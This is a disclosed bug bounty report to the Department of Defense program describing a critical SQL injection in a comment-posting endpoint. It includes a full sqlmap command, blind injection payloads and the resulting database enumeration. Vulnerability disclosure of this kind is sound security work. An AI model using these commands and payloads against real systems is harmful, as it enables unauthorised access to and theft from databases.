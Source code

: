 # SQL injection at [https://█████████] [HtUS]

## Report Details
- **Report ID**: 1627995
- **URL**: https://hackerone.com/reports/1627995
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-07-06T14:04:16.935Z
- **Disclosed**: 2022-09-14T21:04:28.150Z

## Reporter
- **Username**: malcolmx
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hello,

##Summary

while doing test on [`www.███`](http://www.██████/) I’ve found that the endpoint at [`/olc/███comments/comment_post.php`](https://████████) is vulnerable with SQL injection vulnerability

##Vulnerable parameters 

- staff_student

##POC

- using sqlmap run command

```jsx
python3 sqlmap.py --level=5 --risk=3 --tamper=space2comment --random-agent  -u "https://███████" --data="staff_student=STUDENT&scn=xxx&check25=0&check20=0&check20=1&check26=0&check27=0&check29=0&check24=0&comments=xx&Submit=Submit+Comments" -p staff_student --dbms=mysql 
```

- we can see that the target parameter is vulnerable

```jsx
POST parameter 'staff_student' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 103 HTTP(s) requests:
---
Parameter: staff_student (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: staff_student=STUDENT'||(SELECT 0x6545736f FROM DUAL WHERE 6919=6919 AND 4128=4128)||'&scn=xxx&check25=0&check20=0&check20=1&check26=0&check27=0&check29=0&check24=0&comments=xx&Submit=Submit Comments

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: staff_student=STUDENT'||(SELECT 0x615a636e FROM DUAL WHERE 7192=7192 AND (SELECT 4865 FROM (SELECT(SLEEP(5)))VDbe))||'&scn=xxx&check25=0&check20=0&check20=1&check26=0&check27=0&check29=0&check24=0&comments=xx&Submit=Submit Comments
```

{F1810520}
- add `--dbs` we can see the sqlmap will start get the DBS

```jsx
available databases [13]:
[] █████████
[] ██████mobile
[] GET
[] information_schema
[] LEAM
[] leat
[] LEV
[] mysql
[] performance_schema
[] SET
[] test
[] testadmin
[*] testusers
```


{F1810521}

## Impact

attacker is able to get the database

## Attachments
No attachments

